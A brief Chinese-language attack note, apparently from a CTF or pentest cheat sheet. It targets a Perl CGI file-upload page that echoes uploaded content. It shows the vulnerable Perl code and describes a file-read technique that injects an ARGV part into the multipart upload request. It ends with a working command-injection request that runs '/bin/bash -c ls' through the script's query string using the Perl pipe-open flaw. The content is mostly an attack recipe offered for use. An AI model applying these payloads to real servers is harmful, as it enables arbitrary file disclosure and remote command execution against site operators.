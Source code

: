 ## **perl**
```
/cgi-bin/file.pl

一个文件上传页面，
上传后回显。

代码类似使用：
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
}
```
### **文件读取**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
再url后面加上路径，即可读取。
![](.topwrite/assets/image_1735719387896.png)



### **命令执行**
```
POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1
```